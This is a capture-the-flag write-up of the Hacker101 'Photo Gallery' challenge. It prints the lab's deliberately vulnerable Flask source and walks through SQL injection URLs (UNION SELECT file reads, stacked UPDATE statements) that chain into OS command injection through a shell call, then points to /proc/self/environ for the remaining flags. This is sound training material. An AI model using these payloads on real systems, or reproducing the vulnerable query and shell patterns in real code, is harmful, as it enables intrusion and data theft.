



+++
title = "Photo Gallery"
date = 2020-12-30
[taxonomies]
tags = ["hackerone"]
+++

### Flag0

1. "Magical Image Gallery"

    

    The images are fetched by using `id` parameters as such:

    ```
    http://34.74.105.127/9c4252a0af/fetch?id=1
    ```

    When sending a GET request directly, the server doesn't render the URL as an image but as raw format. From past CTF experiences, this is usually a case of extracting a system file to obtain the flag.
    
    After roaming around the web application and performing basic enumeration tests, there wasn't other obvious possible footholds. Therefore my assumption is a SQL injection attack is most likely a possibility.

2. Revealing Flag0 hints the web application is running [uwsgi-nginx-flask-docker](https://github.com/tiangolo/uwsgi-nginx-flask-docker) image. After reviewing the repository, I can only assume that I'm suppose to read a file using SQL injection now that we know what framework is being used.

    With every docker image, there is always a `Dockerfile` that is included. After trial and error, a `union select` method was used to retrieve the `Dockerfile`.

    ```
    http://34.74.105.127/9c4252a0af/fetch?id=4%20union%20select%20%27Dockerfile%27
    ```

    Output:
    ```
    FROM tiangolo/uwsgi-nginx-flask:python2.7 WORKDIR /app RUN apt-get update RUN DEBIAN_FRONTEND=noninteractive apt-get install -y mysql-client mysql-server default-libmysqlclient-dev build-essential ADD requirements.txt /app/ RUN pip install --trusted-host pypi.python.org -r requirements.txt ADD . /app
    ```

    The output looks similar to the `Dockerfile` included in the repository with the exception two things:
    1. Installation of dependencies using `apt` and `pip`.
    2. Working directory is located in `/app`
    
    Going through the enumeration phase again, I checked out what is inside `requirements.txt`.

    ```
    Flask mysqlclient pycrypto
    ```

    Nothing interesting is found. Looking back into the Github repository, there was an `/app` directory that contains `main.py`, `prestart.sh`, and `uwsgi.ini`. After probing the three files, the `main.py` contains Flag0.

     

### Flag1

1. Now that we can see the source code, a review is performed.

    ```python
    from flask import Flask, abort, redirect, request, Response
    import base64, json, MySQLdb, os, re, subprocess
    
    app = Flask(__name__)
    
    home = '''
    <!doctype html>
    <html>
    	<head>
    		<title>Magical Image Gallery</title>
    	</head>
    	<body>
    		<h1>Magical Image Gallery</h1>
    $ALBUMS$
    	</body>
    </html>
    '''
    
    viewAlbum = '''
    <!doctype html>
    <html>
    	<head>
    		<title>$TITLE$ -- Magical Image Gallery</title>
    	</head>
    	<body>
    		<h1>$TITLE$</h1>
    $GALLERY$
    	</body>
    </html>
    '''
    
    def getDb():
    	return MySQLdb.connect(host="localhost", user="root", password="", db="level5")
    
    def sanitize(data):
    	return data.replace('&', '&amp;').replace('<', '&lt;').replace('>', '&gt;').replace('"', '&quot;')
    
    @app.route('/')
    def index():
    	cur = getDb().cursor()
    	cur.execute('SELECT id, title FROM albums')
    	albums = list(cur.fetchall())
    
    	rep = ''
    	for id, title in albums:
    		rep += '<h2>%s</h2>\n' % sanitize(title)
    		rep += '<div>'
    		cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))
    		fns = []
    		for pid, ptitle, pfn in cur.fetchall():
    			rep += '<div><br>%s</div>' % (pid, sanitize(ptitle))
    			fns.append(pfn)
    		rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
    		rep += '</div>\n'
    
    	return home.replace('$ALBUMS$', rep)
    
    @app.route('/fetch')
    def fetch():
    	cur = getDb().cursor()
    	if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
    		abort(404)
    
    	# It's dangerous to go alone, take this:
    	# ^FLAG^XXXXXX$FLAG$
    
    	return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()
    
    if __name__ == "__main__":
    	app.run(host='0.0.0.0', port=80)
    ```

2. This part of the code stood out as dangerous:

    ```python
    rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
    ```

    The "spaced used" is displayed using `du -ch` with a supplied user input from `%s`. This bad coding practice is susceptible to OS command line injection. Even though a part of the code does have an input sanitization function in place, it doesn't sanitize for semi-colon which is commonly used for injection type attacks.

    To exploit the vulnerability, the `id` parameter needs to be escaped using a semi-colon to close the SQL statement and inject an `update` statement.

    ```sql
    http://34.74.105.127/9c4252a0af/fetch?id=1; update photos set filename="whoami" where id=1; commit
    ```

     

    As you can see, the command did execute and parsed on the web page but for some reason the command is showing a try exception. After trial and error, the `du -ch %s` needs to be escaped as well using semi-colon for the OS command to execute.

    ```sql
    http://34.74.105.127/9c4252a0af/fetch?id=1; update photos set filename=";whoami" where id=1; commit   
    ```

    In the real world, this evidence is enough to submit a bug bounty report but because this is a CTF so we need to find the second flag. Additional hints reveal something about being aware of the environment. After digging around what this means, the final two flags can be found in `/proc/self/environ`.